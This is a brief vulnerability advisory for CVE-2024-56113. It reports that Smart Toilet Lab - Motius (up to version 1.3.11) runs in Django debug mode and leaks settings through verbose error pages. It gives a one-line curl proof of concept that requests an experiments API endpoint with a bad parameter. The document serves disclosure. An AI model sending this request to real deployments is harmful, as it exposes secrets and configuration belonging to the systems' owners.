 # CVE-2024-56113
Smart Toilet Lab - Motius is running with debug mode turned on (DEBUG = True) and exposing sensitive information defined in Django settings file through verbose error page.

# Affected Product & Version
Smart Toilet Lab - Motius <= 1.3.11
 
# PoC
cURL command
````
curl --path-as-is -i -s -k -X $'GET' \ -H $'Host: ' -H $'Authorization: ' -H $'Accept: application/json' -H $'Origin: ' \ $'https://your_instance/api/experiments/?page=1&page_size=10&status=initialized&toilet_ids=test'
````

# Credits
This vulnerability was discovered by Manjyot Singh of Henkel Cyber Security Team.
